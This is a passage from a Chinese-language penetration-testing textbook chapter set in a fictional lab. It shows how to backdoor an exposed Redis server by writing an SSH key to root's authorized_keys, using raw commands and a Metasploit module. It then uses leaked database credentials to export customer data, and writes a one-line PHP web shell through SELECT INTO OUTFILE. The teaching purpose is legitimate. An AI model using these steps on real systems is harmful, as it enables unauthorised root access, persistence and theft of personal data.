3.  接着发出 CONFIG SET dbfilename 命令设置配置文件的名称。

4.  向文件中写入任意恶意内容。

5.  发出 SAVE 命令保存内容。

在本节中，我们将使用两种方法来妥协 Redis：发送原始 Redis 命令和使用 Metasploit 辅助模块。我们的目标是在 *c-redis-01* 上添加一个后门 SSH 密钥。

### 原始 CLI 命令

就像利用 MariaDB 数据库一样，我们将通过 SSH 建立本地端口转发，将流向 *c-redis-01* 的流量通过中间主机发送。这样我们就可以使用 Kali 的工具。在 Kali 上运行以下命令以在本地打开 6379 端口。我们将通过 *p-jumpbox-01* (172.16.10.13) 隧道传输流量到 *c-redis-01* (10.1.0.14) 的 6379 端口：

```
$ **ssh -v -N -L 6379:10.1.0.14:6379 backup@172.16.10.13**
```

让我们验证一下 Kali 本地是否监听 6379 端口：

```
$ **netstat -atunp | grep 6379**
```

接下来，在 Kali 上运行 redis-cli 命令打开 Redis 控制台，并向 Redis 服务器发送指令：

```
$ **redis-cli -h 127.0.0.1 -p 6379**
```

我们将运行 CONFIG SET dir Redis 命令，在 Redis 服务器上设置写入公钥的目录：

```
127.0.0.1:6379> **CONFIG SET dir /root/.ssh/**
OK 
```

我们将 dbfilename 设置为 authorized_keys。这将确保内容最终写入的路径是 */root/.ssh/authorized_keys*：

```
127.0.0.1:6379> **CONFIG SET dbfilename authorized_keys**
OK 
```

现在我们将使用 SET 设置一个键（k1），后跟公钥。请注意，在公钥字符串的开头和结尾有两个换行符（\n\n），以确保 authorized_keys 文件格式不会被损坏：

```
127.0.0.1:6379> **SET k1 "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCqfvIYYTDy**
**Dr98DoutM74ThhUb+72vUDdhRl6Y+CKx3BksVTQ7pIWayRdUaUz/LDH2/ijYGTRcf6juv3yZB5V82x**
**PbL/ApvKMFwaxrnipZEPOd4BI7EG32XBy5RhIxZXMoUrxtoiJ9QbeRJh6gw0o85ABJhFCbknhxQR14**
**uiKN7cGaE/XtVBpUiEONczEaUHlJMq6GB/SSIrEXY4iP2p9TUwv0HbljVdE+nOdeKTUINNcnLAbvC6**
**/dHwLJ/NAQ94Ch+eiGdQHauBBeO96JHtDlgYaz1/sq54FTYYJxci4fiDBmXGAG6xf34f9uyy7PugWd**
**sr5O0XR/xRJAcGn2/CGil/wIa09YtpcrkEryO0p+WUg7no3PAuotcC/fgDSFAIZnLFFKUtmWJlXMjX**
**wtOWn9hj61Mk5mT0VlkWopDnVsqXgKfHmWIJolZNdUBW/UHs4nAP+MUOOnNadxlZkKfKdzsaZHhVLM**
**CLoS+IXVKIvMf6tiLuS5LLut6e1Y2wiQmOM= kali@kali\n\n"**
OK 
```

最后，使用 SAVE 命令保存内容：

```
127.0.0.1:6379> **SAVE**
OK 
```

如果你当前在 Kali 中没有设置 SSH 密钥对，请运行 ssh-keygen -t rsa 并按照向导生成一个。公钥将位于 */home/kali/.ssh/id_rsa.pub*。

现在我们将尝试使用私钥 SSH 进入 *c-redis-01* 服务器。我们需要执行一次端口转发，以便通过跳板主机隧道化这个 SSH 流量。我们将在本地监听 2222 端口，并将流量转发到 22 端口：

```
$ **ssh -v -N -L 2222:10.1.0.14:22 backup@172.16.10.13**
```

验证 Kali 上是否有 2222 端口在本地监听：

```
$ **netstat -atunp | grep 2222**
```

现在运行一个 SSH 客户端连接到 10.1.0.14：

```
$ **ssh root@127.0.0.1 -p 2222 -i /home/kali/.ssh/id_rsa**

Linux c-redis-01.acme-infinity-servers.com 6.1.0-kali5-amd64 #1 SMP

`--snip--`
root@c-redis-01:~# 
```

很好！我们通过一些 Redis 技巧成功获得了 *c-redis-01* 的 root SSH 访问权限。

### Metasploit

我们可以通过使用 Metasploit 辅助模块以类似的方式攻破 Redis。*Metasploit* 是一个渗透测试、漏洞评估和利用平台，使用 Ruby 语言编写，由 H.D. Moore 创建。它可以执行许多任务，包括部署有效载荷。

在本节中，我们将使用 Metasploit 利用 Redis 漏洞。这将使你接触到 Metasploit，并展示其他的利用方法。在 Kali 上，通过运行 msfconsole 命令启动 Metasploit：

```
$ **msfconsole**
```

接下来，通过运行 use 命令并指定模块路径来使用 Redis *file_upload* 辅助模块：

```
msf > **use auxiliary/scanner/redis/file_upload**
```

该模块需要一些选项；运行 show options 以查看它们：

```
msf auxiliary(scanner/redis/file_upload) > **show options**

Module options (auxiliary/scanner/redis/file_upload):

Name                    Current Setting  Required  Description
----                    ---------------  --------  -----------
DISABLE_RDBCOMPRESSION  true             yes       Disable compression when saving if found...
FLUSHALL                false            yes       Run flushall to remove all redis data be...
**LocalFile                                no        Local file to be uploaded**
PASSWORD                foobared         no        Redis password for authentication test
**RHOSTS                                   yes       The target host(s), see https://docs.**
 **metasploit.com/docs/using-metasploit/**
 **basics/using-metasploit.html**
RPORT                   6379             yes       The target port (TCP)
**RemoteFile                               no        Remote file path**
THREADS                 1                yes       The number of concurrent threads 
```

我们已将你需要设置的选项加粗。LocalFile 选项应指向包含公钥的文件路径；RHOSTS 应指向 127.0.0.1，我们已在此设置了本地端口转发；RemoteFile 应指向远程文件路径，LocalFile 应上传到该路径：

```
msf auxiliary(scanner/redis/file_upload) > **set LocalFile "/home/kali/.ssh/id_rsa.pub"**
LocalFile => /home/kali/.ssh/id_rsa.pub

msf auxiliary(scanner/redis/file_upload) > **set RemoteFile  "/root/.ssh/authorized_keys"**
RemoteFile => /root/.ssh/authorized_keys

msf auxiliary(scanner/redis/file_upload) > **set RHOSTS 127.0.0.1**
RHOSTS => 127.0.0.1 
```

最后，使用 run 命令运行利用程序：

```
msf auxiliary(scanner/redis/file_upload) > **run**

[+] 127.0.0.1:6379 - 127.0.0.1:6379  -- saved 564 bytes inside of redis DB at
/root/.ssh/authorized_keys
[*] 127.0.0.1:6379 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
```

现在，由于公钥已经存储在 *c-redis-01* 上 root 用户的 *authorized_keys* 文件中，我们可以像之前一样通过本地 2222 端口 SSH 进入该主机：

```
$ **ssh root@127.0.0.1 -p 2222 -i /home/kali/.ssh/id_rsa**
```

使用基于密钥的认证，我们现在对 Redis 主机拥有持久的 root 访问权限。拥有 root 权限将允许你自由地探索这台机器及其包含的所有内容。

## 暴露的数据库文件

像 Apache 和 nginx 这样的 Web 服务器可以配置为仅从特定目录提供 Web 文件，或仅提供非常特定的文件扩展名，如.*html* 或 .*php*。然而，你有时可能会遇到从与主 Web 应用程序相同目录中读取或写入文件的 Web 应用程序。这些文件可能包括配置文件（如 *.conf*、*.env* 和 *.ini* 文件）、简单的数据库文件如 SQLite，甚至包含凭据的文件。

当应用程序以这种方式编程时，它们有风险将这些敏感文件暴露给未经授权的用户。能够猜测 Web 服务器上文件名的客户端可能会遇到可下载的文件，这些文件可能包含有关应用程序或底层服务器的敏感信息。

我们还有一个目标可以攻击：*c-db-01* 机器（10.1.0.15）。如果你扫描这个主机，你会发现只有端口 80（HTTP）是开放的，表明它正在运行一个 Web 服务器。让我们启动一个本地端口转发，以便我们可以从 Kali 运行一些扫描工具。我们将在本地监听端口 8888，并将端口 80 作为目标使用：

```
$ **ssh -v -N -L 8888:10.1.0.15:80 backup@172.16.10.13**
```

通过使用 netstat 验证端口 8888 是否打开：

```
$ **netstat -atunp | grep 8888**

(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)

tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      1151064/ssh
`--snip--` 
```

接下来，我们将使用 dirsearch 在网站上搜索任何有趣的页面或文件。确保运行几分钟，以便它可以遍历可能的 Web 路径数据库：

```
$ **dirsearch -u http://localhost:8888**

`--snip--`
[21:30:47] 403 -  276B  - /.ht_wsr.txt
[21:30:47] 403 -  276B  - /.htaccess.sample
[21:30:47] 403 -  276B  - /.htaccess.save
[21:30:48] 403 -  276B  - /.html
[21:30:48] 403 -  276B  - /.htpasswds
[21:30:48] 403 -  276B  - /.httr-oauth
[21:30:48] 403 -  276B  - /.php
**[21:30:58] 200 -   4KB  - /adminer.php**
**[21:31:05] 200 -  181B  - /database.sql**
**[21:31:10] 200 -  10KB  - /index.html**
[21:31:22] 403 -  276B  - /server-status/
[21:31:22] 403 -  276B  - /server-status
[21:32:26] 301 -  315B  - /uploads  ->  http://localhost:8888/uploads/
**[21:32:27] 200 -  941B  - /uploads/** 
```

正如你所见，一些页面返回了 HTTP 响应代码 403 Forbidden，而少数页面返回了 200 OK（即 *adminer.php*，*database.sql*，*index.html* 和 *uploads*）。

在 Kali 中打开你的本地浏览器，并导航至 *http://localhost:8888/adminer.php* 看看会出现什么。你应该看到一个类似于 图 11-4 的页面。



图 11-4：adminer.php 页面

*Adminer* 是一个数据库管理工具，它存在于单个、自包含的 PHP 文件中。它是诸如 phpMyAdmin 等数据库管理工具的轻量级替代品，允许你查询数据库，导出和导入表数据，创建新数据库等。

*adminer.php* 页面呈现了一个登录表单，我们没有登录的凭据。然而，dirsearch 的结果包括一个名为 *database.sql* 的文件，我们尚未探索。让我们使用 curl -o 参数下载这个文件，该参数将响应输出写入文件中：

```
$ **curl http://127.0.0.1:8888/database.sql -o database.sql**
```

在 Kali 中的文本编辑器中打开这个文件或者简单地运行 cat 命令：

```
$ **cat database.sql**
CREATE DATABASE IF NOT EXISTS adminer_db; ❶
CREATE USER IF NOT EXISTS 'adminer_user'@'localhost' IDENTIFIED BY 'P@ssword321'; ❷
GRANT ALL ON *.* TO 'adminer_user'@'localhost'; ❸ 
```

这个文件包含 SQL 命令。让我们分解一下它的作用。首先，如果不存在，则创建一个名为 *adminer_db* 的数据库 ❶。然后，如果不存在，则创建一个名为 *adminer_user* 的用户，并将密码设置为 *P@ssword321* ❷。向 *adminer_user* 用户授予对所有数据库和表的权限 ❸。

这个脚本本质上是设置一个数据库。文件中包含的相同密码是否可能让我们访问 Adminer 面板？让我们找出来。在 Kali 的浏览器中打开 *http://localhost:8888/adminer.php* 并在用户名和密码字段中输入 **adminer_user** 和 **P@ssword321**。

成功！我们已经登录到了 Adminer。你应该看到各种数据库，比如 *adminer_db*，*customers*，*sys* 和 *mysql*。在接下来的部分中，我们将使用 Adminer 来导出数据库表数据。

### 泄露敏感信息

我们将使用 Adminer 的 SQL 接口来发送 SQL 命令，并从 *customers* 数据库中导出信息。通过从列表中选择 **Customers** 来探索数据库中存在的表格（见 图 11-5）。



图 11-5：客户数据库中的表

数据库有两个表：*acme_hyper_branding* 和 *acme_impact_alliance*。让我们在 Adminer 中使用 SQL 命令页面运行几个命令，该页面位于左上角菜单：

```
SELECT * FROM acme_hyper_branding;
SELECT * FROM acme_impact_alliance; 
```

当你运行这些命令时，应该会出现包含两个公司的个人身份信息（PII）的两张表，信息包括名字、姓氏、职位、电子邮件和明文凭证。通过点击 **导出**，将这些信息保存为 CSV 或 SQL 格式，再次点击 **导出** 进行导出。列表 11-9 显示了 *acme_hyper_branding* 表的 CSV 导出内容。

```
id,first_name,last_name,designation,email,password
1,Jacob,Taylor,Founder,jtaylor@acme-hyper-branding.com,carmen
2,Sarah,Lewish,Executive Assistant,slewis@acme-hyper-branding.com,cachepot
`--snip--`
6,Melissa,Rogers,Software Engineer,mrogers@acme-hyper-branding.com,melissa2go 
```

列表 11-9：包含敏感信息的表数据

尽管我们已经访问了客户信息，但还没有完全破坏数据库服务器。

### 使用 SQL 上传 Web Shell

我们能通过 SQL 命令上传 Web Shell 吗？MySQL 有一个 INTO OUTFILE 语句，可以将查询结果写入输出文件。通过使用带有 INTO OUTFILE 的 SELECT 语句，我们可以尝试将任意内容写入数据库服务器的文件系统。

为了能够上传 Web Shell 或将文件写入系统，我们首先需要知道我们尝试写入的目标路径是否存在于系统中。运行该应用程序的用户账户也必须具有写入该路径的权限。

让我们在 Adminer 中的 **SQL 命令** 部分运行几个测试命令，看看我们是否能够写入系统。以下 SQL 命令尝试将内容添加到名为 *file_write.txt* 的文件中：

```
**SELECT "test_write1" into OUTFILE "file_write1.txt"**
```

执行成功，响应信息显示查询执行成功，受影响的行数为 1，但我们不知道这个文件在文件系统中的位置。如果我们尝试浏览 *http://localhost:8888/file_write1.txt*，会得到 404 未找到错误。这意味着文件没有保存在 Web 根目录，而是保存在我们无法访问的其他地方。

我们能识别出提供网站的文件系统路径吗？常见的 Web 根目录路径包括 */var/www* 或 */var/www/html*。运行以下命令将文件写入 */var/www/html* 目录：

```
**SELECT "test_write2" into OUTFILE "/var/www/html/file_write2.txt"**
```

这次，我们收到了权限拒绝错误，错误信息为查询中的错误 (1)：无法创建/写入文件，这意味着路径存在，但代我们执行命令的用户没有写入权限。

我们的 dirsearch 扫描检测到了一个 *uploads* 目录。也许我们可以向其中写入文件？让我们试试看：

```
**SELECT "test_write3" into OUTFILE "/var/www/html/uploads/file_write3.txt"**
```

浏览到 *http://localhost:8888/uploads/file_write3.txt*；你应该能看到 *test_write3* 文本，这表明我们成功地将文件写入了 *uploads* 目录。

现在我们需要写一些代码，使我们能够执行命令。我们可以使用 PHP Web Shell 来实现这一点。运行以下命令将 PHP Web Shell 写入 *uploads* 目录：

```
**SELECT "<?php system($_GET['cmd']); ?>" into OUTFILE "/var/www/html/uploads/s.php"**
```

最后，运行 curl 来检查我们是否能够通过 Web Shell 执行命令：

```
$ **curl http://localhost:8888/uploads/s.php?cmd=id**

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

成功了！我们能够在*www-data*用户的上下文中运行系统命令。在继续之前，尝试利用你目前在书中学到的内容建立一个反向 Shell。

## 总结

在本章中，我们通过使用一个富含频率的端口数据库来改进了我们的端口扫描，并识别了可能的访问路径，以便访问公司网络中的额外资源。在横向移动的过程中，我们利用托管在共享驱动器上的脚本，攻破了未受保护的数据库，给 WordPress 实例植入后门，通过泄露的 SQL 文件访问了数据库管理面板，进行了 Redis 配置调整，并通过 SQL 命令上传了 Web Shell。
